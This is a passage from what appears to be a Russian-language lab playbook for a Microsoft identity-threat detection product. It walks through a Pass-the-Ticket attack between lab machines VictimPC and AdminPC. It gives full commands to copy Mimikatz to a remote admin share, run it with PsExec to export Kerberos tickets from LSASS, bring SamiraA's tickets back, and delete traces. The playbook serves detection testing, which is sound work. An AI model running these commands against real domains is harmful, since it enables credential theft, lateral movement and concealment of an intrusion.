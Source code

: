 Здесь мы выполним следующее:

* Установим инструмент Mimikatz на компьютере AdminPC.
* Получим билеты на компьютере AdminPC.
* Выполним атаку Pass-the-Ticket, чтобы получить учетные данные SamiraA.

### <a name="pass-the-ticket"></a>Pass-the-Ticket;

Из командной строки, запущенной в контексте *RonHD* на компьютере **VictimPC**, перейдите в расположение, где находятся наши инструменты для атаки. Затем выполните команду xcopy, чтобы переместить эти инструменты на компьютер AdminPC:

``` cmd
xcopy mimikatz.exe \\adminpc\c$\temp
```

При появлении запроса нажмите клавишу ```d```, чтобы указать, что папка temp является каталогом на компьютере AdminPC.

![Копирование файлов на компьютер AdminPC](media/playbook-escalation-xcopy1.png)

### <a name="mimikatz-sekurlsatickets"></a>Mimikatz sekurlsa::tickets

Разместив Mimikatz на компьютере AdminPC, мы используем PsExec, чтобы выполнить команду удаленно.

1. Перейдите в расположение, где находится PsExec, и выполните следующую команду:

   ``` cmd
   PsExec.exe \\AdminPC -accepteula cmd /c (cd c:\temp ^& mimikatz.exe "privilege::debug" "sekurlsa::tickets /export" "exit")
   ```

   Эта команда выполнит и экспортирует билеты, найденные в процессе LSASS.exe, и поместит их в текущий каталог на компьютере AdminPC.

2. Нам нужно скопировать билеты обратно на VictimPC с AdminPC. Так как в этом примере нас интересуют только билеты SamiraA, выполните следующую команду:

   ``` cmd
   xcopy \\adminpc\c$\temp\*SamiraA* c:\temp\adminpc_tickets
   ```

   ![Экспорт полученных учетных данных с AdminPC обратно на VictimPC](media/playbook-escalation-export_tickets2.png)

3. Давайте очистим следы на AdminPC, удалив наши файлы.

   ``` cmd
   rmdir \\adminpc\c$\temp /s /q
   ```

   > [!Note]
   > Более опытные злоумышленники не будут использовать диск при выполнении произвольного кода на компьютере после получения на нем прав администратора.

   На компьютере **VictimPC** эти собранные билеты находятся в папке **c:\temp\adminpc_tickets**:

   ![C:\temp\tickets — это экспортированные выходные данные Mimikatz с компьютера AdminPC](media/playbook-escalation-export_tickets4.png)
